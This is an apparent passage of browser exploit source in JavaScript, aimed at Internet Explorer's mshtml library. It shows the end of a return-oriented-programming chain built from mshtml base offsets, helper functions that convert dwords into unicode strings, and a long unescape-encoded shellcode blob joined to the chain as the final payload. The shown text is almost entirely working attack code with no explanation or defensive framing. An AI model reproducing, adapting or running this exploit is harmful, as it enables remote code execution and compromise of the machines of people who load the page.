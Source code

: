 				mshtmlbase + Number(0x0052e805),    // pushad; retn
				0x90909090,
				0x90909090,
				0x90909090,
				0x90909090,
				0x90909090,
            		];
        		return arr;
   		 }

		function d2u(dword){
			var uni = String.fromCharCode(dword & 0xFFFF);
			uni += String.fromCharCode(dword>>16);
			return uni;
		}

		function tab2uni(heapobj, tab){
			var uni = ""
			for(var i=0;i<tab.length;i++){
			    uni += heapobj.d2u(tab[i]);
			}
			return uni;
		}
	    
	    heapobj.tab2uni = tab2uni;
	    heapobj.d2u = d2u;
	    heapobj.rop_chain = rop_chain;

	    var code = unescape("%u40b0%u414b%u1d24%ub4a8%u7799%ube37%ua947%ud41a%u353f%ueb30%ud133%u2ae1%u31e0%ue2d3%u1514%ufd13%u3497%u7a7b%ufc39%u92ba%u9390%u0a4e%ubbf5%u8db2%ue385%uf823%ud53a%u0448%u750d%ud632%u707c%u4642%u7e78%ub12c%u2f98%u1c3c%u727e%u3b7b%u4fe0%ue38c%u4f76%u81b0%u2de2%u35ba%u86bb%u67f8%u8d0c%u9190%u7574%u7f71%u7d3c%u9f15%ub347%ud50b%u784e%u4970%u1b37%uc1ff%uc6fe%uc0c7%ub6d4%u9246%ub4b1%uf588%ua91d%u7c4b%u2548%u7a99%u9b3d%u01b7%u34eb%u1cb5%u38a8%ub8fc%ud609%ube4a%u9714%ue121%ub904%u42b2%u7796%u6924%u80f9%u0dfd%u412c%u2f05%u273f%ubf40%u9893%u7343%u6679%u77a8%ub63f%u7472%u707b%u843d%uebd2%uf630%ubfd5%u71b2%u757a%u1848%u0cf5%u96b7%uf889%u764a%u9b2d%u92b0%u66be%u7d97%ub425%u9114%u4904%uba34%u421c%ue308%uf902%u4140%u4773%u0d27%u93b5%u2299%u1dd4%u7c4f%u2867%u98fc%u2c24%ue212%ufd03%u78a9%u3505%u8390%u2fe0%u4337%u154b%u468d%u79b9%u297f%ubbd6%u197e%u4ee1%u9fb8%ub1b3%u4a3c%u7a7d%u7679%u4670%u2091%u74e1%ub043%u4e71%ub590%u75b7%u983c%u4bb3%ud687%uf86b%u9b40%u117f%ud1f7%u7bf9%u152f%u3427%u1d92%u3d97%u2d49%u720d%u014f%u7ce0%u3105%u10eb%u35f5%ub4b6%u1c2c%u93b2%u4704%ud52b%ubbb1%ue389%u4137%u7e78%u733f%u7742%u2925%ufcd0%u6624%u8dba%u67b9%u1a96%ua8fd%ua9be%ud40b%u4899%u9f14%u87bf%ue2f7%ub80c%u903d%u14b0%u25bb%u7d96%u1a7f%u79f5%uf809%u347c%u7b91%u4e47%ueb81%ue122%ud41b%u7074%ub21d%u2d72%u928d%ub3b1%ua905%u71b4%u4b0c%u9343%u0d76%u989f%u84b5%ub7d5%u4666%ube40%ub8bf%u201c%u48e2%u4a73%u6b2c%u2afc%u04e0%u4941%u3777%u10ba%u7ed6%u332f%ub9fd%u7a9b%u7875%u2415%u1299%uf9d2%u3f97%ub63c%u3567%u27a8%ue386%u7742%u4f73%ue380%ua93c%u757c%uf62b%ud0c0%u27e0%u214b%ue1d3%ub93f%u157d%u8c14%ue2c1%u9904%u7498%u7071%u6637%ueb28%u4e1c%u7fb6%u357b%u3297%u25d4%uf569%u9105%u4047%u0224%u78d6%u7941%uba3d%u49b1%u7276%u1d2f%u85bf%u67fc%u7e92%u4a2c%u7ab4%u1348%u93d5%u8d9b%u03bb%u74fd%u0879%u43e1%ue083%u1873%u46e3%u2372%ub2f8%u88b0%ub8f9%u969f%u75b5%u770c%u7b42%ub72d%u7aa8%ue219%ueb38%ub334%u90be%u4f7e%u0d7f%ub3b6%u3076%ubff5%u479f%u7167%ud40a%u3b7c%u66fc%u41b7%u9615%u3dfd%u3505%ub825%u1c7d%ub54a%u3940%u37d6%u3f92%u971d%u1478%u8d49%ua8b2%u3493%u2c3c%u902f%ud54f%u04a9%u1198%u91f8%ub99b%u9943%ubbb1%u0d70%u4824%u4b0c%ube4e%ub02d%uf93a%u27ba%ub446%udb42%ud9d1%u2474%u5af4%uc929%u49b1%u8cbe%uc04a%u31a0%u1972%uc283%u0304%u1572%ubf6e%u483c%u40e7%u89bd%uc997%ub858%uae85%ue929%ua419%u027c%ue8d2%u9194%u2496%u129a%u131c%ua395%u9b91%u6779%u67b0%ub480%u5912%uc94b%u9e53%u22b6%u7701%u91bc%ufcb5%u2980%ud2b4%u128e%u57ce%ue650%u5964%u5781%u11f3%ud339%u825b%u3038%ufeb8%u3d73%u740a%u9782%u7543%ud7b4%u480f%uda78%u8c4e%u05bf%ue625%ub8c3%u3d3d%u66b9%ua0c8%uec19%u016a%u219b%uc2ec%u8e97%u8c7b%u11bb%ua6a8%u9ac0%u694f%ud841%uad6b%uba09%uf412%u6df7%ue62b%ud150%u6c89%u0672%u2eab%ueb1b%ud081%u63db%ua392%u2ce9%u2c08%ua442%uab96%u9fa5%u236e%u2058%u6d8e%u749f%u05de%uf536%ud5b5%u20b7%u8619%u9b17%u76d9%u4bd8%u9cb1%ub4d7%u9ea1%udd3d%u644b%u22d6%u6723%ucb43%u6831%u579a%u8ebc%u77f6%u19e8%ue16f%ud2b1%uee0e%u9f6c%u6411%u5f82%u8ddf%u73ef%u7d88%u2eba%u811f%u4411%u17a0%ucf9d%u8ff7%u369f%u103f%u1d60%u994b%udef4%ue624%udf18%ub0b4%udf72%u64dc%u8c26%u6af9%ua0f3%uff51%u90fb%ua806%u1e93%u9e70%ue03c%u1e57%u3701%ua49e%u3d73%u64f2");
	    var rop_chain = heapobj.tab2uni(heapobj, heapobj.rop_chain(mshtmlbase)) ;
	    var shellcode = rop_chain + code

